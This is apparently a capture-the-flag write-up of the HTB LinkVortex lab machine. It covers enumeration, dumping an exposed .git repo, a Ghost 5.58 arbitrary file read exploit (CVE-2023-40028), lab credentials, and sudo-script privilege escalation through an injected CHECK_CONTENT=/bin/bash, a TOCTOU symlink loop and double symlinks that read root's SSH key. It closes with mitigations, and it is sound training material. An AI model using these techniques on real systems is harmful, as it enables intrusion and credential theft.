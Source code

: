 ```yaml
---
title: LinkVortex
date: 2025-06-22
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Linux, .git, git-dumper, Ghost-conf-file, arbitrary-file-read, unquoted-env-var, TOCTOU, double-symlinks] 
image: link.png
media_subpath: /assets/img/posts/2025-06-22-linkvortex/
---
```


## Introduction

In this walkthrough, I worked on an **easy Linux machine** from the HTB labs. I discovered a **subdomain** during enumeration and used `git-dumper` to extract the `.git` repository locally. Analyzing the repo revealed **credentials for a Ghost CMS instance**, which I used to log in. I then exploited an **arbitrary file read vulnerability** in Ghost to extract the application's config files, where I found valid **SSH credentials**. After gaining shell access, I identified **sudo privileges** for specific scripts. I escalated privileges to root by exploiting:

1. **Unquoted environment variables** in a root-executed script.
2. A **TOCTOU (Time-of-check to time-of-use)** race condition.
3. A **double symlink** vulnerability.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

<aside>
🚨

Run long gobuster scan

</aside>

## Services

### Port 22

## Web

### Port 80

Add domain to `/etc/hosts` .

```bash
**feroxbuster -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -C 403,404,400**
```

![image.png](image%201.png)

- `/ghost/`
    
    ![image.png](image%202.png)
    
- `/email/`

Checking `Network` tab I see the `Ghost 5.58`.

![image.png](image%203.png)

**Vhost Fuzzing**

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://linkvortex.htb/ -H 'Host: FUZZ.linkvortex.htb' -fs 230
```

![image.png](image%204.png)

```bash
gobuster dir -u http://dev.linkvortex.htb/ -w /usr/share/wordlists/dirb/common.txt -t 42 -b 400,403,404
```

![image.png](image%205.png)

## Exploitation

We are gonna use `git-dumper` to get `bare git repo`:

```bash
git-dumper http://dev.linkvortex.htb/ ./git_llot
```

```bash
git status
```

![image.png](image%206.png)

![image.png](image%207.png)

I found several passwords, and trying each one with `admin@linkvortex.htb` I found a hit with `OctopiFociPilfer45`:

![image.png](image%208.png)

I found the following exploit (Arbitrary File Read) for this version of application:

[Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028)

```bash
./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
```

![image.png](image%209.png)

I am gonna search for sensitive file location of `Ghost`.

Reading this [post](http://ghost.org/docs/config/#custom-configuration-files) and [this](https://github.com/docker-library/ghost/issues/73), I requested `/var/lib/ghost/config.production.json`.

```bash
/var/lib/ghost/config.production.json
```

![image.png](image%2010.png)

Using these credentials I could login with `ssh`.

## Privilege Escalation

Checking users I see:

```bash
cat /etc/passwd | grep sh$
```

![image.png](image%2011.png)

That means we don’t need to do lateral movement.

Checking sudo privileges I see:

![image.png](image%2012.png)

Checking content of file:

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

1. **Environment variables**
    
    I see that some variable are not enclosed in quotes that means we can perform command injection, I am gonna give a command for `CHECK_CONTENT` and then run a script.
    
    ```bash
    export CHECK_CONTENT=/bin/bash
    ln -s /home/bob/user.txt file.png
    ```
    
    ![image.png](image%2013.png)
    
2. **TOCTOU (Time-of-Check to Time-of-Use)**
    
    We can also perform `TOCTOU` attack as `$LINK` after it has been checked is moved to another directory we can run continuous command where `$LINK` is changing every time, and when the original file is checked and put in directory our command will run and change that file again( we can do that because we have write access to the directory)
    
    ![image.png](image%2014.png)
    
    ![image.png](image%2015.png)
    
    ```bash
    while true;do ln -sf /root/.ssh/id_rsa /var/quarantined/sshroot.png;done
    ```
    
    ![image.png](image%2016.png)
    
    ![image.png](image%2017.png)
    
3. **Double Symlinks**
    
    ```bash
     if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
        /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
        /usr/bin/unlink $LINK
      else
    ```
    
    Checking condition we see that check is not strict, we can use double symlink which does not contain `/etc/`, or `/root` in itself but still points to them.
    
    ![image.png](image%2018.png)
    
    Let’s make `$CHECK_CONTENT=true` so that it returns output.
    
    ![image.png](image%2019.png)
    

## Credentials

```bash
admin@linkvortex.htb:OctopiFociPilfer45
bob:fibber-talented-worth
```

## Mitigation

- Remove `.git` directories from publicly accessible paths or prevent access with `.htaccess` or server config.
- Secure sensitive configuration files using strict **file permissions**.
- Avoid using **hardcoded credentials** in applications or scripts.
- Sanitize and validate file access in applications to prevent **arbitrary file reads**.
- Use **quoted paths** in scripts, avoid using temporary files insecurely, and apply **secure coding** practices to prevent TOCTOU and symlink attacks.
- Regularly audit and restrict **sudoers entries** to minimize privilege escalation vectors.
